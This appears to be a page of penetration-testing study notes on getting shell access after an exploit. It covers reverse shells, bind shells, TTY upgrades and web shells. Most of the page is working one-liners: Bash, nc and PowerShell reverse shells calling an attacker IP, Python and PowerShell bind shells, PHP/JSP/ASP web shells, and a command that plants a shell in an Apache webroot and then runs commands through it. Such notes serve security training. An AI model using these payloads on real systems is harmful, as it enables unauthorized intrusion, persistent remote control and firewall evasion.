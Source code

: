 # <h1 style="text-align:center">Shells</h1>

## Shell Types

Once an vulnerability has been exploited, our next goal is to create a reliable connection that gives us access to the sytems shell (i.e. ```Bash``` or ```PowerShell```). One way to achieve this is by using tools such as ```SSH``` on Linux or ```WinRM``` on Windows. However, to do this, we need credentials.

Another method is through shells. There are three main types of shells: Reverse Shell, Bind Shell, and Web Shell.

### Reverse Shell
Most common, quickest, and easiest method. We can start a netcat listener on our machine that listens on a specific port. With listener in place, we can execute a ```reverse shell command``` that connects the remote system shell (e.g. ```Bash```, ```PowerShell```) to our netcat listener, giving us a reverse connection over the remote system. 

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* ```nc -lvnp <port number>``` - start a netcat listener on a port of our choosing.
* ```ip a``` - show our IP address. 

* ```bash -c 'bash -i >& /dev/tcp/<target_IP>/<port> 0>&1'``` - bash.
* ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f``` - bash.
* ```powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()``` - Windows PowerShell - replace IP and port number. 

### Bind Shell

A ```Bind Shell``` is connected to the targets' listenting port. Once executed, it will listen on a port on the remote host and bind to that host's shell to a port. We then connect to thata port with netcat. 

* ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f``` - bash code.
* ```python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'``` - python code.
* ```powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();``` - powershell code.

* ```nc <target_IP> <port>``` - connect to the shell via netcat.

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

#### Upgrading TTY

* ```python -c 'import pty; pty.spawn("/bin/bash")'``` - use Python within the netcat shell to upgrade the shell to full TTY.
* ```CTRL + z``` - background our shell and get back to local terminal, then:
    
        stty raww -echo
        fg

        [Enter]
        [Enter]

* ```echo $TERM``` - TERM variable.
* ```stty size``` - show rows and columns.
* ```export TERM=xterm-256color``` - add color.
* ```stty rows 67 columns 318``` - resize.

### Web Shell

A web shell is typically a web script, i.e. PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command and prints its output back on the web page. 

First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

* ```<?php system($_REQUEST["cmd"]); ?>``` - php code.
* ```<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>``` - jsp code.
* ```<% eval request("cmd") %>``` - asp code.

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

* Apache - 	/var/www/html/
* Nginx	- /usr/local/nginx/html/
* IIS - c:\inetpub\wwwroot\
* XAMPP - C:\xampp\htdocs\

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

* ```echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php``` - bash code.

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using cURL. We can visit the shell.php page on the compromised website, and use ?cmd=id to execute the id command:

    http://SERVER_IP:PORT/shell.php?cmd=id

Or use cURL:

    curl http://SERVER_IP:PORT/shell.php?cmd=id

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a Python script to automate this process and give us a semi-interactive web shell right within our terminal.
